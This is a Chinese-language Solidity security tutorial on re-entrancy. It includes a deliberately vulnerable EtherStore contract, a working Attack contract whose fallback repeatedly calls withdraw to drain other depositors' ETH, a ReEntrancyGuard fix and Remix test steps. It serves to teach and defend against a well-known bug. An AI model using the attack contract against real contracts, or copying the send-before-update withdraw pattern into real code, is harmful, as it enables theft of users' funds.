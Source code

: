 # 66.Re-Entrancy
## 漏洞
重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如fallback函数）循环调用合约，将合约中资产转走或铸造大量代币。
重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。当在攻击合约中的fallback()或receive()函数中重新调用了目标合约的withdraw()函数
假设合约A调用合约B。
重入攻击漏洞允许B在A完成执行之前回调A。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore是一个合约，您可以存入和取出ETH。该合约容易受到可重入攻击的威胁。让我们来看看为什么。

1. 部署EtherStore
2. 从账户1（Alice）和账户2（Bob）各存入1个以太币到EtherStore
3. 部署攻击合约并指定EtherStore的地址
4. 使用账户3（Eve）调用Attack.attack函数并发送1个以太币。
   你将会得到3个以太币（其中2个以太币是从Alice和Bob那里被盗取的，另外1个以太币是从这个合约发送的）。

发生了什么？
攻击者能够在EtherStore.withdraw执行完成之前多次调用EtherStore.withdraw。

以下是函数的调用方式：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack.fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // 当EtherStore向此合约发送以太币时，将调用Fallback函数。
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // 辅助函数，用来检查此合同的余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
* 确保在调用外部合约之前发生所有状态更改
* 使用函数修饰符防止重入
以下是一个防止重入的示例保护
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
# remix验证
部署合约EtherStore，调用deposit()函数转入1ETH，显示余额为1ETH。
![66-1.png](./img/66-1.png)
部署合约Attack，输入合约EtherStore的地址，然后调用attack（）函数并转入1ETH，会进行重入攻击，显示余额为2ETH。
![66-2.png](./img/66-2.png)
